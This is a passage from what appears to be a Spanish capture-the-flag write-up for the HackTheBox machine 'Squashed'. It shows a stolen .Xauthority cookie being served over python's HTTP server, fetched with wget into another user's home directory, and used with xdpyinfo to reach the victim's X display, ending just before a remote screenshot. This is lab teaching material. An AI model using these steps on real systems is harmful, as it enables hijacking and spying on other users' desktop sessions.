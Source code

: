 ```bash
-rw-------  1 pepe scanner 2475 oct 31 11:13 .xsession-errors.old
```

Creamos servidor http y subimos archivo `.Xauthority` de usuario `ross` a la carpeta personal del usuario `alex`

```bash
┌─[pepe@parrot]─[/mnt/ross]
└──╼ $python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.119 - - [07/Dec/2022 17:09:00] "GET /.Xauthority HTTP/1.1" 200 -
```

```bash
alex@squashed:/home/alex$ wget http://10.10.14.40:8080/.Xauthority
--2022-12-07 16:08:58--  http://10.10.14.40:8080/.Xauthority
Connecting to 10.10.14.40:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 57 [application/octet-stream]
Saving to: '.Xauthority'

.Xauthority         100%[===================>]      57  --.-KB/s    in 0.04s   

2022-12-07 16:08:58 (1.46 KB/s) - '.Xauthority' saved [57/57]
```

Ahora podemos verificar que haya conexión con los comandos que encontramos en HackTricks. Para ello primero debemos saber qué nombre tiene asignada la pantalla. Con el comando `w` vemos que la pantalla es `:0`

```bash
alex@squashed:/home/alex$ w
 16:32:36 up  1:38,  1 user,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               14:54    1:38m 11.16s  0.06s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Ahora con `xdpyinfo` verificamos que tengamos conexión

```bash
alex@squashed:/home/alex$ xdpyinfo -display :0
motion buffer size:  256
bitmap unit, bit order, padding:    32, LSBFirst, 32
image byte order:    LSBFirst
number of supported pixmap formats:    7
supported pixmap formats:
    depth 1, bits_per_pixel 1, scanline_pad 32
    depth 4, bits_per_pixel 8, scanline_pad 32
.
.
.
.
```

Una vez verificada la conexión podemos hacer un screenshot de manera remota de  la siguiente forma

